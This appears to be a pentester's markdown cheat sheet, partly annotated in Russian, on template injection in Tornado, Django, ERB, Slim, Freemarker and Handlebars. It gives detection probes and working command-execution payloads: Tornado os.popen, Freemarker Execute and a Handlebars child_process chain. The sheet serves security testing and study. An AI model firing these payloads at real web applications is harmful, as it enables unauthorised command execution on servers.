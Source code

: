 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

### Django

#### Django Templates

Link:[ https://docs.djangoproject.com/en/4.1/topics/templates/](https://docs.djangoproject.com/en/4.1/topics/templates/)

Basic:

```python
{% raw %}
{% debug %}
{% endraw %}
```

### Jinja2

Link: [https://jinja.palletsprojects.com/en/3.1.x/](https://jinja.palletsprojects.com/en/3.1.x/)

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```

## JavaScript

### Handlebars

Link: [https://handlebarsjs.com/](https://handlebarsjs.com/)

Basic:

```javascript
${{7*7}} -> OK
${{7*'7'}} -> Empty
```

RCE (from [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)):

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

